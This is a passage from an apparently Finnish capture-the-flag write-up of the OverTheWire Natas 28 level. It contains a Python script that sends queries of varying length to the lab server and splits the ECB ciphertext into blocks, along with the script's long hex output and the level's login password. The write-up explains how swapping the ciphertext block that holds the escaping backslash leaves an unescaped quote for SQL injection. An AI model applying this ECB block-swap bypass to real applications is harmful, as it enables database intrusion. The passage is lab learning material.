f2909c4d53781ee1777a012bb1a72541
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 26 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 27 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 28 Encrypted query Length: 192

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 29 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 30 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 31 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 32 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 33 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 34 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
53d9499ebcad6861f04b7cdc24f30462
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 35 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
a549fda52b6d9b4e2632db31838856d5
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 36 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
2011bbe488dde1bbec961b6170b30e12
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 37 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
8829a1f930ceb566b834441c0577402c
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 38 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
547602b52fae1566ac8e971f91f6d605
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 39 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
a45a93ee4794d1b6204fb0920b68f27d
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 40 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
eda118f999f9495e8f3d973fba6528a3
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 41 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
f2909c4d53781ee1777a012bb1a72541
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 42 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 43 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 44 Encrypted query Length: 224

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
b39038c28df79b65d26151df58f7eaa3 <<<<<<<<<<<<<<<<
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 45 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 46 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 47 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 48 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 49 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================

```

**Eteenpäin kuitenkin**, tein ja kokeilin normi SQL injektiolla normi pilkun `'` niin toistui tietokannan vitsejä ainakin.

Python skripti osuus lohkoanlyysi ja tarkka testausta jatkuu. 

Tässä on nyt selkeästi koottu jatkettu versio skriptistä, joka sisältää sekä alkuperäisen lohkoanalyysin että erilliset testisyötteet "a"*11 + "!" ja "a"*12. Tämä auttaa sinua kohdistamaan syötteen tarkasti lohkon alkuun ja tarkkailemaan lohkomuutoksia.





**mitä tässä tuloksessa oikein tapahtui? ja mitä tämä ylempi skripti teki siis?**

Skripti lähettää POST-pyynnön palvelimelle, jossa on SQL-kyselyyn liittyvä salaus. Se mittaa salatun vastauksen pituuden ja purkaa salauksen base64 → hex. Se tulostaa salauksen lohkoittain (32 heksamerkkiä = 16 tavua).Tarkoitus on ymmärtää, miten syötteen pituus vaikuttaa salattuun muotoon.

Loppu osassa syöteessä se löysi/toisti **täsmälleen samaa** salattu lohko on täsmälleen sama (ECB:n ominaisuus)

Esimerkiksi "a"*12 antaa saman salauksen joka kerta

Jos "a"*12 + "!" antaa saman pituuden ja lohkot kuin "a"*12, se tarkoittaa että ! ei vaikuta lohkoihin (esim. jää paddingin puolelle)

Kun syötteen pituus on 13 ja mukana on ', salauksen pituus kasvaa 160 → 192, koska ' escapataan → \'. Jos ' saadaan lohkon alkuun, \ jää edelliseen lohkoon ja voidaan korvata toisella lohkolla, jolloin ' jää yksin ja SQL-injektio onnistuu.


```
import requests
from urllib.parse import unquote
import binascii
import base64

url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Peruslohkoanalyysi
for i in range(1, 50):
    data = {"query": "a" * i}
    data_length = len(data['query'])
    res = requests.post(url=url, data=data, auth=(username, password))
    encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
    encrypted_raw_length = len(encrypted_raw)
    print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
    block_size = 32
    for i in range(encrypted_raw_length // block_size):
        print(encrypted_raw[block_size * i : block_size * (i + 1)])
    print("=" * 40)

# Tarkka testisyöte: "a"*11 + "!"
data = {"query": "a" * 11 + "!"}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)

# Tarkka testisyöte: "a"*12
data = {"query": "a" * 12}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)
```

### 🔐 Miksi `'` kasvattaa salauksen pituutta?

- `'` on erityismerkki → sovellus muuttaa sen ennen salausta: `'` → `\'`
- Tämä lisää yhden merkin → pituus kasvaa
- Jos `'` on lohkon lopussa:
  - `\` menee siihen lohkoon
  - `'` siirtyy seuraavan lohkon alkuun
- ECB salaa lohkot erikseen → voimme vaihtaa lohkon, jossa on `\`, pois
- `'` jää yksin → ei enää escapattu → SQL-injektio toimii

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-2.py   
input Length: 1 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
ab880a8f136fbeb98967891324a1b075
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 2 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
b130a531bec89c705213bfa5c9667ac7
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 3 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
2f5293a63acb9fe8c7b4e824b76d6a1d
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 4 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
3504a9a9675ffd614b4f1f90d284fcaa
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 5 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c36a1f0469158a3052166146a5e3f2ec
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 6 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
4a11ffe73afd15daa05eb3c3486dcde1
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 7 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
9fde1cef6e3f84a172633f3074fc8e18
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 8 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
453e0020602f4dccd50f0eb7709477c2
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 9 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
9e622686a52640595706099abcb052bb
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 10 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 11 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 12 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 13 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 14 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 15 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 16 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 17 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 18 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
53d9499ebcad6861f04b7cdc24f30462
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 19 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
a549fda52b6d9b4e2632db31838856d5
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 20 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
2011bbe488dde1bbec961b6170b30e12
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 21 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
8829a1f930ceb566b834441c0577402c
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 22 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
547602b52fae1566ac8e971f91f6d605
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 23 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
a45a93ee4794d1b6204fb0920b68f27d
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 24 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
eda118f999f9495e8f3d973fba6528a3
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 25 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
f2909c4d53781ee1777a012bb1a72541
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 26 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 27 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 28 Encrypted query Length: 192
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 29 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 30 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 31 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 32 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 33 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 34 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
53d9499ebcad6861f04b7cdc24f30462
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 35 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
a549fda52b6d9b4e2632db31838856d5
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 36 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
2011bbe488dde1bbec961b6170b30e12
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================
input Length: 37 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
8829a1f930ceb566b834441c0577402c
ac3b871c1c448386b45cd36d9e8f72f4
655149bbba2123d89d95417ea27f3a7b
========================================
input Length: 38 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
547602b52fae1566ac8e971f91f6d605
41c098c4bacdc5ed9357564e5105dd7e
64d0dcc868253692adfcbd3796d1bf8a
========================================
input Length: 39 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
a45a93ee4794d1b6204fb0920b68f27d
6486954aea46fb93e9ab85845b4f4bd0
d7ff2b725453fc294701e51f5d7c0f8e
========================================
input Length: 40 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
eda118f999f9495e8f3d973fba6528a3
896de90884f86108b167f8b4aea5d763
917232051483e68e458fd066167b30a3
========================================
input Length: 41 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
f2909c4d53781ee1777a012bb1a72541
a09522f301cf9d36ac7023f165948c5a
9739cd90522fa7a86f95773b56f9f8c0
========================================
input Length: 42 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
738a5ffb4a4500246775175ae596bbd6
f34df339c69edce11f6650bbced62702
========================================
input Length: 43 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 44 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 45 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 46 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 47 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 48 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 49 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 12 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
909a68162c84bd23156c942120760d4b
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 12 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================

```

